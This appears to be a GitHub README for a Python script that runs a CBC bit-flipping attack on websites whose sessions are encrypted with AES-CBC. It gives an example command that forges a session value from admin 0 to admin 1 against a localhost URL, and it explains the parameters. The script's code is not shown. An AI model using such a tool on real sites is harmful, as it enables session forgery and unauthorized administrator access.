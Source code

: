 # Project description

This script uses byte reversal to attack websites that use AES-CBC mode to encrypt the session.

# Usage

Run on the command line with the necessary parameters

example:
```python
python3 cbcBitFlipping.py \
--url "http://127.0.0.1:9091/read" \
--session "76xobRieNsQtbEbN8RFt6lyzY5qChDQWRW4meH3WrL/ELv5GBB7vktl5Kb+NEkMeBK7EXXruHJvjT70mDFJWig==" \
--old '{"admin": 0, "username": "user1"}' \
--new '{"admin": 1, "username": "user1"}' \
--param filename test.txt \
--delay 0.1 \
--success-substring "File not found."
```


Enter the original session content at the --old parameter and the desired tampered session content at the --new parameter.

If necessary, enter the parameters and values you want to attach to the -param parameter.

Type the keyword included in the returned packet after successfully bypassing forensics at success-substring to make it easier for the script to identify which rollover attack was successful.

# Acknowledgments

My Computer

# Effective demonstration

<img width="947" alt="image" src="https://github.com/user-attachments/assets/24ea0366-9e65-4f89-a189-7133e885fcf8" />
